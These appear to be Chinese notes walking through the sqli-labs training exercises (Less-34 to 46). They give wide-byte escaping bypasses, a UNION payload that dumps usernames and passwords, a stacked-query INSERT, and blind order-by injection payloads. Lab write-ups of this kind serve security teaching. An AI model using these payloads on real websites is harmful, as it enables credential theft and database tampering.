 ## Less-34
这关在33的基础上将get请求变为了post请求
`将 utf-8 转换为 utf-16 或 utf-32，例如将 ' 转为 utf-16 为�'`

我们就 可以利用这个方式进行尝试，可以使用 Linux 自带的 iconv 命令进行 UTF 的编码转换：
```
➜  ~ echo \'|iconv -f utf-8 -t utf-16
��'
➜  ~ echo \'|iconv -f utf-8 -t utf-32
��'
```
## Less-36
还是mysql_real_escape_string()
>?id=-1%df' union select 1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+security.users) --+

>?id=-1�' union select 1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+security.users) --+

# 38-53 -- 堆叠注入
## Less-38
原理:数据库的多条语句执行
`mysqli_multi_query 函数用于执行一个 SQL 语句，或者多个使用分号分隔的 SQL 语句`。这个就是堆叠注入产生的原因，因为本身就支持多个 SQL 语句。

>?id=1';INSERT INTO users VALUES('99','cys','cys');-- +

## Less-46
[sql注入之order by注入 · Yang1k](https://yang1k.github.io/post/sql%E6%B3%A8%E5%85%A5%E4%B9%8Border-by%E6%B3%A8%E5%85%A5/)

语句：SELECT * FROM users ORDER BY $id

`order by 1或2或3 是按列进行排序`

**报错**：
>?sort=updatexml(1,if(length(database())=8,1,user()),1)

注入正确则返回xpath报错内容

**盲注**：
一、盲注
>?sort=if(length(database())=8,1,(select id from information_schema.tables))

二、rand()+布尔
>?sort=rand(length(database())>1)  

`rand(true)与rand(false)返回页面不同`
三、rand()+延时
>?sort=if(1=1,1,sleep(1))

测试的时候发现延迟的时间`并不是sleep(1)中的1秒，而是大于1秒`。 最后发现延迟的时间和所查询的数据的条数是成倍数关系的。 计算公式：
```
延迟时间=sleep(1)的秒数*所查询数据条数，所以可以sleep(0.1)
```
**另一种union盲注**：
语句：
>SELECT * FROM users where username = 'admin' union select 1,2,'a' order by 3 -- +'
